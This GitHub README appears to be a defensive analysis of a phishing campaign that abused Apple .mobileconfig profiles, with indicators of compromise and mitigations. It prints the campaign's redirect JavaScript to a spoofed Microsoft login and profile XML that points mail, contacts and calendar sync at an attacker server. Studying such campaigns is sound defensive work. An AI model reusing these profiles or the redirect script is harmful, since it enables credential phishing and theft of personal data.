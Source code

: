 # Phishing-apple-mobileconfig-breakdown
Analysis of a phishing campaign using Apple .mobileconfig profiles for email, contacts, and calendar exfiltration.

## Background

This repository was created using the files and information from a phishing email I personally received.  
I regularly analyze phishing attempts I encounter, both out of curiosity and to stay aware of evolving techniques. In this case, while the email itself was part of a typical mass phishing campaign and used fairly standard methods, I chose to document it here as a **learning resource** for others.  
The campaign leverages Apple `.mobileconfig` profiles which may be useful for those studying mobile or configuration-based threats.

**Don't open the `.mobileconfig` files on an iPhone**
The phishing site is likely down by the time I post this but it may still attempt installing profiles on your phone.

---


![82628182](https://github.com/user-attachments/assets/d2108cb0-d1e9-4708-a62b-8f1186df4aba)




## Summary

This repository documents a phishing campaign observed in May 2025 that targets Apple device users by abusing `.mobileconfig` files — a lesser-known but legitimate configuration mechanism used on iOS and macOS systems. The campaign delivers three malicious configuration profiles via email, each designed to silently configure the victim’s device for data exfiltration.

Once installed, these profiles automatically connect the victim's device to attacker-controlled infrastructure by:
- Adding a **malicious IMAP/SMTP email account**
- Syncing the device's **contacts** via CardDAV
- Accessing the user's **calendar** via CalDAV

All payloads are disguised as part of a “Secure Setup” and reference domains that appear vaguely professional (e.g., `eu40.1host.gr`). While the phishing email itself was generic and mass-distributed.

---

## Key Findings

- Delivered via phishing email impersonating Microsoft  
- `.mobileconfig` profiles install silently on iOS/macOS devices  
- Targets:
  - **Mail** (`com.apple.mail.managed`)
  - **Contacts** (`com.apple.carddav.account`)
  - **Calendar** (`com.apple.caldav.account`)
- Backend controlled by attacker at `mail.blutr.gr`  
- SSL misconfiguration (port 2080) used to avoid detection  
- Redirection script used to fake legitimacy and lure users to spoofed login page  

---

## Email Payload Overview

**Sender (spoofed):**
```
info.mail.mr@mi-robotic.com
```

**Observed Subject:**
```
Microsoft Secure Document Access
```

**Malicious Attachments:**
- `email-gdgraphic.mobileconfig`
- `carddav-gdgraphic.mobileconfig`
- `caldav-gdgraphic.mobileconfig`

---

## Redirection JavaScript

This JavaScript is embedded in a fake Billing Details button:

```javascript
setTimeout(() => {
  document.getElementById("loader").style.display = 'block';
  document.getElementById("success").style.display = 'block';
}, 100);

setTimeout(() => {
  window.location.href = "https://live.microsoft.outh.sso.50-6-202-90.cprapid.com/?Xkjvaksk121asIghlasdqwe";
}, 1000);
```

### Purpose:
- Displays a fake success/loading screen
- The portion of the url "https://live.microsoft.outh.sso." is added to make the link seem legitimate.
- Redirects to their phishing site impersonating Microsoft’s login page. 
- Uses `cprapid.com` webhosting company where the attacker is hosting their landing page.

---

## `.mobileconfig` Payloads Breakdown

### 1. Mail Account Configuration

```xml
<key>PayloadType</key>
<string>com.apple.mail.managed</string>
<key>EmailAddress</key>
<string>blutrgr@eu40.1host.gr</string>
<key>IncomingMailServerHostName</key>
<string>mail.blutr.gr</string>
<key>IncomingMailServerPortNumber</key>
<integer>993</integer>
<key>OutgoingMailServerPortNumber</key>
<integer>465</integer>
```

- Configures Apple Mail with IMAP/SMTP  
- SSL used on standard ports (993/465)  
- Server controlled by attacker  
- Enables attacker to monitor or send mail from the device  

---

### 2. CardDAV (Contacts)

```xml
<key>PayloadType</key>
<string>com.apple.carddav.account</string>
<key>CardDAVHostName</key>
<string>mail.blutr.gr:2080</string>
```

- Syncs the user’s address book with the attacker’s server  
- Port 2080 is suspicious — not standard for SSL or CardDAV  
- Can exfiltrate names, phone numbers, and email addresses  

---

### 3. CalDAV (Calendar)

```xml
<key>PayloadType</key>
<string>com.apple.caldav.account</string>
<key>CalDAVHostName</key>
<string>mail.blutr.gr</string>
<key>CalDAVPort</key>
<integer>2080</integer>
```

- Syncs user calendar to attacker infrastructure  
- May enable the injection of malicious or misleading events  

---

## Indicators of Compromise (IOCs)

| Type            | Value                                                  |
|-----------------|--------------------------------------------------------|
| Email           | `blutrgr@eu40.1host.gr`                                |
| Hostname        | `mail.blutr.gr`                                        |
| Fake MS login   | `live.microsoft.outh.sso.50-6-202-90.cprapid.com`      |
| Ports           | 993, 465, **2080**                                     |
| File Types      | `.mobileconfig`                                        |
| Payload Types   | `com.apple.mail.managed`, `com.apple.carddav.account`, `com.apple.caldav.account` |

---

## Mitigation and Detection

### For Individuals:
- Never install `.mobileconfig` files unless provided by verified IT personnel  
- On iOS: **Settings > General > VPN & Device Management**  
- On macOS: **System Settings > Profiles**

### For Organizations:
- Block `.mobileconfig` attachments at email gateway  
- Monitor or block outbound traffic to:
  - `mail.blutr.gr`
  - `*.1host.gr`
  - `*.cprapid.com` (especially from Apple devices)
- Disable unmanaged profile installation via MDM policies  
- Watch for CardDAV/CalDAV traffic over non-standard ports (e.g. 2080)

---

## Conclusion

This campaign demonstrates a clever and low-interaction method of data exfiltration using trusted Apple device features. By leveraging `.mobileconfig` profiles, attackers bypass traditional phishing detection and gain persistent access to sensitive information.

### This repository contains:
- Sample redacted profiles for reference  
- Indicators of compromise  
- Write-up to raise awareness of configuration profile abuse  


